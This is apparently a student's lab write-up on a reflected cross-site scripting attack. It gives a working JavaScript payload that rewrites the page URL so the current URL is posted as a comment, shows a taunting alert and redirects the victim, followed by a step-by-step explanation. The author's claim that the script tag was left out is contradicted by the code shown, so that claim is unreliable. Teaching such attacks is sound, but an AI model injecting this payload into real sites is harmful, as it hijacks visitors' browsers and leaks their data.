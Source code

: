 # Lab 4, part 2: XSS

> English version



### XSS SCRIPT

```html
<script>
    let url = document.location.href;
    new_url = url.replace(/method=\w+/, 'method=1');
    new_url = new_url.replace(/user=\w+/, 'comment=' + encodeURIComponent(url));
    alert("Hahahhhhhh!!! YOU ARE ATTACKED!");
    document.location.href = new_url;
</script>
```

~ Note: To prevent unnecessary web attacks, I did not include the <script> tag in my script.

------

### DESCRIBETION

In particular, my XSS script did the following:

1. Obtained the current URL of the page and saved it in a variable named `url`.
2. Used a regular expression to replace the `method` parameter in the URL with '1' and replace the `user` parameter with `comment=` followed by the encoded current URL, and saved the modified URL in a variable named `new_url`.
3. Displayed an alert box to inform the user that they have been attacked.
4. Used the`document.location.href` property to redirect the current page to the URL specified by `new_url`.

AND → This is a non-persistent attack.
